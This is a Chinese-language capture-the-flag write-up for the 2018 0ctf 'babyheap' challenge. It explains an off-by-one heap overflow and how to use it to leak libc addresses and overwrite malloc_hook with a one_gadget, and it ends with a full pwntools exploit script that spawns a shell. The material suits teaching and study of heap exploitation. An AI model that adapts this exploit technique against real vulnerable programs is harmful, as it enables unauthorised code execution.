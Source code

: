 # 2018 0ctf pwn--babyheap

题目四个功能alloc  update  delete  view

![屏幕截图(87)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(87).png)

我们利用ida找一下漏洞

alloc函数里

![屏幕截图(91)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(91).png)

update函数里（漏洞之处）

![屏幕截图(92)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(92).png)

可写的长度多了一位，刚好可以修改下一个chunk头的size。 术语叫  off-by-one

delete函数

![屏幕截图(93)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(93).png)

## 利用漏洞思路

​	利用off-by-one的漏洞，泄露出libc_base 和 main_arena地址，求出malloc_hook地址，修改main_arena的内容，指向malloc_hook附近的地方，从而修改malloc_hook内容为shellcode地址，执行alloc函数 = getshell。

### 第一步 泄露出libc_base 和 main_arena

​	申请多个chunk，利用off-by-one的漏洞，update chunk0修改chunk1的size，使其包含两个chunk，即overlap。把chunk1 free掉，这时系统认为chunk1为small chunk，便把它扔到main_arena处，申请与chunk1原来大小的chunk，chunk1的fd，bk的内容就会到了chunk2的fd和bk，因为指针2并没有free掉，view（2）就会出现main_arena的地址。

![屏幕截图(94)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(94).png)

chunk3的作用是防止chunk2被‘合并’。

main_arena = 0x7f68ce3a0b78 - 0x58

libc_base = 0x7f68ce3a0b78 - 0x39bb78(我机器的偏移)

heap地址也可以找到

申请chunk4 大小为chunk2，指针4就会和指针2指向同一处，再free chunk1和chunk2，view（4）就会出现chunk1的地址。减去0x50就是heap的地址。

### 第二步 修改malloc_hook的内容

为了修改malloc_hook的内容，由于题目限制最大申请内存为88，main地址处开头都是0x7f，所以我们不能直接修改malloc_hook的内容，我们只能先修改main_arena（注意main_arena 的位置都有 对应chunk的大小）的内容，使它指向malloc_hook附近的位置。

我们先申请一个0x58的chunk，把它free掉

```python
alloc(0x58)
delete(1)
```

这步可以称是 鬼斧神工之作。看上去好像没做什么，实际上很重要，它把main_arena的bk修改了。

![屏幕截图(95)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(95).png)

0x000055c05750c140中的 55 便是帮助我们malloc时通过检查的size大小。我们把地址偏移一下，main_arena+37放到chunk2的fd中，注意指针2虽然free掉，但我们还有chunk4。

![屏幕截图(86)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(86).png)

alloc两个chunk，指针2就会指向main_arena+37处，我们就可以修改top chunk

Top Chunk

当一个chunk处于一个arena的最顶部(即最高内存地址处)的时候，就称之为top chunk。该chunk并不属于任何bin，而是在系统当前的所有free chunk(无论那种bin)都无法满足用户请求的内存大小的时候，将此chunk当做一个应急消防员，分配给用户使用。如果top chunk的大小比用户请求的大小要大的话，就将该top chunk分作两部分：1）用户请求的chunk；2）剩余的部分成为新的top chunk。否则，就需要扩展heap或分配新的heap了——在main arena中通过sbrk扩展heap，而在thread arena中通过mmap分配新的heap。

其中要注意的是，为什么分配56字节呢，，，想想是不是还有0x58的chunk，为什么不会分配到它呢，，，，因为0x60时fast chunk，不可拆，，除非分配的刚刚好是0x50-0x58的chunk，就会分给它

所以，当找不到适合的free chunk时，就会找到top chunk，就会分配到 malloc_hook附近，偏移为 -0x30，shellcode由one_gadget 得到，就不多讲了。

修改完malloc_hook后，malloc一下就会getshell了

exp：

```
from pwn import *
import sys

def alloc(size):
	r.recvuntil("Command: ")
	r.sendline("1")
	r.recvuntil("Size: ")
	r.sendline(str(size))

def update(idx,size,content):
	r.recvuntil("Command: ")
	r.sendline("2")
	r.recvuntil("Index: ")
	r.sendline(str(idx))
	r.recvuntil("Size: ")
	r.sendline(str(size))
	r.recvuntil("Content: ")
	r.sendline(content)

def delete(idx):
	r.recvuntil("Command: ")
	r.sendline("3")
	r.recvuntil("Index: ")
	r.sendline(str(idx))

def view(idx):
	r.recvuntil("Command: ")
	r.sendline("4")
	r.recvuntil("Index: ")
	r.sendline(str(idx))

def exploit(r):
	alloc(0x48)
	alloc(0x48)
	alloc(0x48)
	#chunk3 meiyou hui  shibai
	alloc(0x48)
	update(0, 0x49, 'a'*0x48 + "\xa1")
	delete(1)
	alloc(0x48)
	view(2)
	r.recvuntil("Chunk[2]: ")
	main_arena = u64(r.recv(8))-0x58
	libc_adr = main_arena-0x39bb20
	print hex(libc_adr)
	alloc(0x48)   # 4 = 2
	delete(1)
	delete(2)
	view(4)
	r.recvuntil("Chunk[4]: ")
	heap = u64(r.recv(8))-0x50
	alloc(0x58)
	delete(1)
	update(4, 8, p64(main_arena + 37))
	alloc(0x48)
	alloc(0x40)
	update(2,0x2c,"\x00"*35+p64(main_arena-0x33))
	alloc(0x20)
	update(5,28,'a'*11 + p64(libc_adr+0x4526a)*2)
	alloc(22)
	r.interactive()
	return

r = process('./babyheap')
print util.proc.pidof(r)
pause()
exploit(r)


```

